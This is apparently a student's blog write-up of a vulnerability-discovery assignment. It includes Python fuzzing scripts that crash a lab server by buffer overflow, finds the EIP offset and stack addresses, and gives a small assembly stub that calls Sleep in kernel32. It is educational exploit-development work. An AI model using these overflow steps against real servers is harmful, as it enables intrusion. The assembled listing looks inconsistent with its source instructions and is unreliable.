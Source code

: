 ```yaml
---
layout: post
title:  "Vulnerability Discovery"
date:   2016-09-12  
comments:   true  
---
```


# Assignment 1, Vulnerability Discovery

Kaidi He		G31860481

### Part 1 of 2

First, to crash the server I did some modification on the codes provided by Prof.

```Python
import sys, socket, time
 
host = sys.argv[1]
port = int(sys.argv[2])
 
length = 100
 
while (length < 1000):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((host, port))
	data1 = s.recv(1024)
	s.sendall("A" * length)
	data2 = s.recv(1024)
	s.close()
	time.sleep(2)
	print 'Recieved: ', repr(data1), repr(data2)
	length += 100
```

It turned out like this:

![](http://ww3.sinaimg.cn/large/801b780agw1f8nrsjsdx4j21kw0zktnz.jpg)

Thus, I knew that it crashed when input size was 500Bytes. Which means the least number of characters needed to cause the program to crash is less than 500 and more then 400. So I make the add-up pace slower to catch the exact number.

```Python
import sys, socket, time
 
host = sys.argv[1]
port = int(sys.argv[2])
 
length = 400
 
while (length < 1000):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((host, port))
	data1 = s.recv(1024)
	s.sendall("A" * length)
	data2 = s.recv(1024)
	s.close()
	time.sleep(2)
	print 'Recieved: ', repr(data1), repr(data2)
	length += 1
```

And it turned out like this: 

![](http://ww3.sinaimg.cn/large/801b780agw1f8nrssaohfj21kw0zk7s7.jpg)

In this screenshot, we can see that when input size reach to **408 Bytes**(1.2) the server did crash but the EIP hasn't been entirly overwritten by the input. We need to keep adding the input length to find out the the least number of characters needed to overwrite all of EIP. After several experiments the least number of characters needed to overwrite all of EIP is **416**(1.2). (Becasue there is 4 Bytes EBP before 4 Bytes EIP).

After that, I modified the code again:

```Python
import sys, socket, time
 
host = sys.argv[1]
port = int(sys.argv[2])
 
length = 408
 
while (length < 1000):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((host, port))
	data1 = s.recv(1024)
	s.sendall("A" * length + "B" * 8)	# Using "B" to show EIP length
	data2 = s.recv(1024)
	s.close()
	time.sleep(2)
	print 'Recieved: ', repr(data1), repr(data2)
	length += 100
```

The result was:

![](http://ww2.sinaimg.cn/large/801b780agw1f8nrt16v02j21kw0zk7fw.jpg)

  Thus, we can see that the input begins at `0012F908`(1.3).

  ![](http://ww3.sinaimg.cn/large/801b780agw1f8nru8q7pvj20wi06kdht.jpg)

 And the EIP stack address is `0012FAA4`(1.4)

![](http://ww4.sinaimg.cn/large/801b780agw1f8nruo2nagj20r8026glr.jpg)

To avoid this problem, programmers just need to implement a constriction of the length of user input.

---

### Part 2 of 2

#### 2.1 

**System Version**:

- Windows 7 Professional
- Service Pack 1
- English
- 32-bit Operating System


![](http://ww3.sinaimg.cn/large/801b780agw1f8nrtq5o6jj21dc0p4147.jpg)


#### 2.2

```assembly
mov ebx, 0x75eeba46	;the address of the Sleep function in kernel32.dll
mov eax, 0
mov ax, 4000
push eax
call ebx
```

#### 2.3

listing:

```
     1 00000000 66BB46BAEE75            mov ebx, 0x75eeba46
     2 00000006 66B800000000            mov eax, 0
     3 0000000C B8A00F                  mov ax, 4000
     4 0000000F 6650                    push eax
     5 00000011 66FFD3                  call ebx
```

![](http://ww2.sinaimg.cn/large/801b780agw1f8nrtzpau1j21kw0zkds8.jpg)


### Reference:

> http://netsec.ws/?p=180